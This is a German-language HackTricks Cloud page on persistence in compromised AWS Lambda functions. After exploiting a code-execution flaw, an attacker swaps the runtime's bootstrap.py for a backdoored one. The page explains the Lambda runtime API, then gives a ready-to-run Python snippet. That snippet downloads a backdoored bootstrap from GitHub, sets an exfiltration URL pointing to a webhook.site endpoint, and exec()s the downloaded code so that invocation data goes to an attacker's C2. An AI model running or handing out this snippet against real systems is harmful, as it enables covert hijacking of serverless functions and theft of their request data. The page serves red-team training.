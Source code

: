 # AWS - Steal Lambda Requests

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Lambda Flow

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** ist ein Prozess außerhalb des Containers, der **Invocations** an den **init**-Prozess **sendet**.
2. Der init-Prozess hört auf Port **9001** und stellt einige interessante Endpunkte bereit:
* **`/2018-06-01/runtime/invocation/next`** – holt das nächste Invocation-Ereignis
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – gibt die Handler-Antwort für die Invocation zurück
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – gibt einen Ausführungsfehler zurück
3. **bootstrap.py** hat eine Schleife, die Invocations vom init-Prozess abruft und den Benutzercode aufruft, um sie zu verarbeiten (**`/next`**).
4. Schließlich sendet **bootstrap.py** die **Antwort** an init

Beachte, dass bootstrap den Benutzercode als Modul lädt, sodass jede Codeausführung, die vom Benutzercode durchgeführt wird, tatsächlich in diesem Prozess stattfindet.

## Stehlen von Lambda-Anfragen

Das Ziel dieses Angriffs ist es, den Benutzercode dazu zu bringen, einen bösartigen **`bootstrap.py`**-Prozess innerhalb des **`bootstrap.py`**-Prozesses auszuführen, der die anfällige Anfrage verarbeitet. Auf diese Weise beginnt der **bösartige bootstrap**-Prozess, **mit dem init-Prozess zu kommunizieren**, um die Anfragen zu bearbeiten, während der **legitime** bootstrap **gefangen** ist und den bösartigen ausführt, sodass er keine Anfragen an den init-Prozess stellt.&#x20;

Dies ist eine einfache Aufgabe, da der Code des Benutzers vom legitimen **`bootstrap.py`**-Prozess ausgeführt wird. Der Angreifer könnte also:

* **Ein gefälschtes Ergebnis der aktuellen Invocation an den init-Prozess senden**, sodass init denkt, der bootstrap-Prozess wartet auf weitere Invocations.
* Eine Anfrage muss an **`/${invoke-id}/response`** gesendet werden.&#x20;
* Die invoke-id kann aus dem Stack des legitimen **`bootstrap.py`**-Prozesses mit dem [**inspect**](https://docs.python.org/3/library/inspect.html) Python-Modul (wie [hier vorgeschlagen](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) oder einfach erneut an **`/2018-06-01/runtime/invocation/next`** angefordert werden (wie [hier vorgeschlagen](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Einen bösartigen **`bootstrap.py`** ausführen, der die nächsten Invocations verarbeitet.
* Aus Tarnungsgründen ist es möglich, die Lambda-Invocations-Parameter an ein vom Angreifer kontrolliertes C2 zu senden und die Anfragen dann wie gewohnt zu bearbeiten.
* Für diesen Angriff reicht es aus, den Originalcode von **`bootstrap.py`** aus dem System oder [**GitHub**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) zu erhalten, den bösartigen Code hinzuzufügen und ihn von der aktuellen Lambda-Invocation auszuführen.

### Angriffsschritte

1. Finde eine **RCE**-Schwachstelle.
2. Erzeuge einen **bösartigen** **bootstrap** (z.B. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Führe** den bösartigen bootstrap aus.

Du kannst diese Aktionen einfach ausführen, indem du:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Für weitere Informationen siehe [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Referenzen

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Sieh dir die [**Abonnementpläne**](https://github.com/sponsors/carlospolop) an!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
